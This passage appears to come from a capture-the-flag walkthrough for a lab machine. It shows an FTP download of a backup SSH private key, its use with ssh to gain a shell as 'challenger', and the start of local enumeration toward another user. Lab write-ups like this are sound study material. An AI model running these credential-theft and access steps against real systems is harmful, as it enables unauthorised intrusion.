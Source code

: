 Downloading `id_rsa_backup` and `authorized_keys`.
```console
ftp> get id_rsa_backup
local: id_rsa_backup remote: id_rsa_backup
229 Entering Extended Passive Mode (|||9047|)
150 Opening BINARY mode data connection for id_rsa_backup (2610 bytes).
100% |**********************************************************************************|  2610        9.46 MiB/s    00:00 ETA
226 Transfer complete.
2610 bytes received in 00:00 (28.29 KiB/s)
ftp> get authorized_keys
local: authorized_keys remote: authorized_keys
229 Entering Extended Passive Mode (|||54555|)
150 Opening BINARY mode data connection for authorized_keys (573 bytes).
100% |**********************************************************************************|   573      778.26 KiB/s    00:00 ETA
226 Transfer complete.
573 bytes received in 00:00 (6.09 KiB/s)
```

- `id_rsa_backup` looks like a ssh key.
- `authorized_keys` includes a username: `challenger`

### Shell as challenger

After setting the correct permissions for `id_rsa_backup`, it works for getting a shell as `challenger` using `ssh`.

```console
chmod 600 id_rsa_backup
ssh -i id_rsa_backup challenger@dodge.thm
```
```console
challenger@thm-lamp:~$ id
uid=1003(challenger) gid=1003(challenger) groups=1003(challenger)
```

With this, we can read the user flag.
```console
challenger@thm-lamp:~$ wc -c user.txt 
38 user.txt
```

## Shell as cobra

### Finding credentials for cobra

Looking for the source code of the websites present, there is one website called `notes`, that we have not encountered before.

```
challenger@thm-lamp:/var/www$ ls
default_html  html  html_www  notes  www
```
It seems to be running on `127.0.0.1:10000`.
```console
challenger@thm-lamp:/var/www$ cat /etc/apache2/sites-enabled/notes.conf
<VirtualHost 127.0.0.1:10000>
...
DocumentRoot /var/www/notes
...
```
```console
challenger@thm-lamp:/var/www$ ss -tln
State         Recv-Q        Send-Q                 Local Address:Port                  Peer Address:Port        Process        
LISTEN        0             511                        127.0.0.1:10000                      0.0.0.0:*                    
```